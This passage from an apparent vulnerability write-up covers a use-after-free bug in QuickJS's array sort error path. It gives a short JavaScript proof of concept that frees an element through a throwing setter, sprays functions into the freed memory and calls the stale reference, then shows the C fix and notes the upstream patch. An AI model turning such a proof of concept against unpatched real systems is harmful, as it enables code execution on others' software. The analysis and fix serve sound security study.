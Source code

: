 ## 0x05 Exploitation
Usually, for this type of UAF exploitation, function addresses are used to overwrite the mistakenly released memory to achieve arbitrary code execution. This involves heap and stack memory allocation and release. Those who are interested can take a look at the detailed introduction to the exploitation principles of heap and stack vulnerabilities in [Modern Binary Exploitation CSCI 4968](http://security.cs.rpi.edu/courses/binexp-spring2015/lectures/17/10_lecture.pdf).

The exploitation code is as follows.

```js=
let spray = new Array(100);
let a = [{hack:0},1,2,3,4]; 
let refcopy = [a[0]]; 

a.__defineSetter__(3,()=>{throw 1;}); 
try {
	a.sort(function(v){if (v == a[0]) return 0; return 1;}); 
}
catch (e){}
a[0] = 0; 

// Overwrite the memory incorrectly released with the address of a function.
for (let i=0; i<100; i++) spray[i] = () => {console.log("hack")}; 
console.log(refcopy[0]()); // "hack"
```

## 0x06 Fix

As mentioned in the previous section on the principle, the reason for the error was that when the sorting was wrong, all elements of the array would have their reference count reduced by 1, causing duplicate releases. So, to fix this issue, the redundant release points need to be removed. One modification method is to refrain from releasing the elements until all of them have been written back to the object, when the order remains unchanged. Another modification method is to avoid releasing the elements that have already been released before the error occurred. The specific modification is as follows:

```c=
...
exception:
    // for (n = 0; n < pos; n++) { // Release all elements of the array
    for (; n < pos; n++) { // Release elements starting from the point of error
         // Release the memory of the corresponding element in the array, leading to a decrease of the object reference count
        JS_FreeValue(ctx, array[n].val); 
        if (array[n].str)
            JS_FreeValue(ctx, JS_MKPTR(JS_TAG_STRING, array[n].str));
    }
```

In the new release on July 21st, the uaf vulnerability has been fixed. By examining the diff, we can see that the author chose the second, simpler and more efficient method of fixing the issue.


## Reference

1. [Modern Binary Exploitation CSCI 4968](http://security.cs.rpi.edu/courses/binexp-spring2015/lectures/17/10_lecture.pdf)
2. https://bellard.org/quickjs/
